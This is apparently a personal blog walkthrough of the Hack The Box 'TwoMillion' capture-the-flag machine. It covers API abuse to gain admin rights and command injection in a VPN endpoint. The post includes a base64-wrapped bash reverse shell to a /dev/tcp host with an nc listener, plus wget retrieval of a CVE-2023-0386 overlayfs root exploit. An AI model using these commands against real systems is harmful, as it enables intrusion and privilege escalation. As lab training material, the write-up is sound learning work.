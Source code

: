 ```yaml
---
layout: single
classes: #wide
title: "TwoMillion - HTB"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [ctf, htb]
tags: [burp, api]
---
```

# TwoMillion:
![box](/assets/images/twomillion/2mil_box.png)  
Hi, this is one of the first HTB boxes I have attempted.
Having done a few boxes in the past I had a little idea of 
what I was getting myself into but, this box put me through it.  

This is the first box I have tried using guided mode and it was a very
plesant supprise. If you haven't tried the HTB guided mode I would
definitely recommend it. 

### Nmap
Nmap scan:
![nmap scan](/assets/images/twomillion/nmap.png)  
nmap scan found 2 tcp ports

### Page Exploration
Adding the ip and 2million.htb to my /etc/hosts file I navigated to
the page. Upon investagation of the page there was a join page and a login
page. The join page needed a code to get in. 

![code_login](/assets/images/twomillion/code_login.png)  

Refreshing the page and looking in the network tab presented me with some
js files. One file was called inviteapi.min.js. The one issue with this
file is it was obfuscated.
![bad_code](/assets/images/twomillion/code_found_in_invite.api.min.js.png)  
Upon deobfuscating the code you get:  
![good_code](/assets/images/twomillion/fixed_code.png)  
Little more readable right?

Within this code there is the function makeInviteCode().
Executing this function manually within the console gives an output
encrypted in ROT13 (nothing a little cyberchef cant solve). Throwing the output into cyberchef you get the hint "In order to generate the invitation code, make a POST request to /api/v1/invitation/generate".
 
Curl came in clutch being able to send the post request:  
`curl -i -L -X POST -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -b "PHPSESSID=36tguu0940aidi58fmloe" http://2million.htb/api/v1/invite/generate`

The request responded with:   
{"0":200,"success":1,"data":{"code":"Tlk1VDQtV0tYSUYtSk82SlQtUTdVRFo=","format":"encoded"}}  

The code can be decrypted using the following command:   
`echo "Tlk1VDQtV0tYSUYtSk82SlQtUTdVRFo=" | base64 --decode`  
My code was: `NY5T4-WKXIF-JO6JT-Q7UDZ`  

Going back to the forum now that we had a valid invite code I created
my account with the credentials:  
Username: Ryushe  
Email: Ryushe.dev@gmail.com  
Password: Ryu  

### VPN
Upon loging in I was greeted with a older verion of the current HTB
website. The most important part of the entire page was the vpn
page. This page was able to create/regenerate a valid vpn key.  

Using burp to inspect the request I noticed that the page was sending
a request to `/api/v1/user/vpn/generate`. Modifying the request a 
little to see how the website worked, I was able to see all the
different things the api could do when I navigated to `/api`. Going up
one directory would show the user all the valid api requests. 

![api](/assets/images/twomillion/api_endpoints.png)  

Notice how there is a url to generate a vpn for not only a normal user,
but for an admin as well. 

Admin has an api request that allows us to check if we are admin:  
`GET /api/v1/admin/auth`  
Sending a GET request using burp we can see that we are indeed infact
not admin :(  
![Am_admin?][/assets/images/twomillion/admin_false.png]  

Now, there is another api url under the PUT category. This api link
allows the user to change admin settings. Using burp to send a
request will result in the a response saying "danger", "missing
perameter: email"

![email_not_valid](/assets/images/twomillion/Missing_email_peram.png)  

Adding the email perameter you get something that looks like this:  

![email_valid](/assets/images/twomillion/Missing_isadmin_peram.png)  

Adding in the admin block and then checking our admin status we get:  
Note: is_admin has to be set to 1 like this `"is_admin":1`  

![admin_true](/assets/images/twomillion/admin_true.png)  

Now, is when the magic starts to happen. We're root right? Ya, remember
the api call I mentioned before `api/v1/admin/vpn/generate`? We
can now successfully call that.

Calling the `vpn/generate` using a POST burp request it asks for us to give
it a user to make the vpn for. Putting
`{"username":"Ryushe"}`
in the request I get a successful vpn generation output.  

Now, this api endpoint has a command injection vulnerability in it.
We can test this by changing the request to `{"username":"Ryushe;ls;"}`  

### Command Injection Exploit
Now that we know that there is a command injection vulnerability we can
set-up a reverse shell into the machine. Using a basic reverse shell payload
(I used a bash reverse shell) we can encrypt it for transfer using:  
`echo "bash -i >& /dev/tcp/<ip of host>/8888 0>&1" | base64 `  
Now, we want to get a nc listener on our reverse shell:  
`nc -lvnp 8888`  
Copy the ouput and put it in where it says encrypted payload:  
`echo "<output of first command>" | base64 -d | bash`  
Paste the command into the machine you are attacking a press enter.
If all went went well you should now be in the machine.

Now, looking in the admin directory we see user.txt (the first flag)  
Hmm.. we need to take over admin user  

Taking a look at the .env file I was presented with the db name as well as
the the admin username and password.  
dbname=htb_prod  
username: admin  
password: SuperDuperPass123   
running: `su admin`  
with pass: `SuperDuperPass123`  
Loggs you into the admin account. Now, that you are admin you can get the 
user.txt file in the admin home directory. 

Upon logging into the user admin you are presented with a message:  

![mail](/assets/images/twomillion/1you_have_mail.png)  

Upon looking at the /var/mail directory I found the file mail:  

![mail_contents](/assets/images/twomillion/2mail.png)  

The email gave clues to check the db config so thats where I headed next.
Logging into mysql with the valid credentials I got from the .env file.
I did not find anything upon entering the mysql db.   

I decided to take another look at the email that was sent to admin. 
Upon further inpection I found that the email was talking about the
os that was hosting their services and something to do with overlayfs. 
Currently we are on version 22.04.1 of ubuntu and
googling ubuntu 22.04.1 overlayfs vunerabilities lead me to this [article](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/#how-the-cve-2023-0386-vulnerability-works).  
Upon further investagation I found this [repo](https://github.com/sxlmnwb/CVE-2023-0386) that worked wonders: 
1. Clone onto host system  
2. settup a `python -m http.server`  
3. wget --recursive --no-parent <http://myip:port>
4. going to the dir with 2 different terminals I made the process and ran it with   
`./fuse ./ovlcap/lower ./gc`  
5. In the second terminal I ran `./exp` (and just like that we had root)  

![root](/assets/images/twomillion/3proof_root.png)  

I ran sudo apt install plocate (to make finding the root flag easier)  
It did not.... (ended up waiting for it to fail over and over)  

Finally, I cd'ed into the root dir and there it was waiting for me the root.txt  
Catting the file I got the flag 


![pwn](/assets/images/twomillion/Proof_of_pwn.png)  


### What I Learned
* Command injection vulnerability
* Curl -X -L <url>   
    - how to format curl for redirects and post requests  
* To try to spawn a shell earlier.. I was too caught up with 
other things I totally forgot you can spawn shells to make things easier  
Also ldconfig allows you to see lib versions.. didnt know that
* Better understanding of how to send burp requests and modify data
    - eg: Command injections



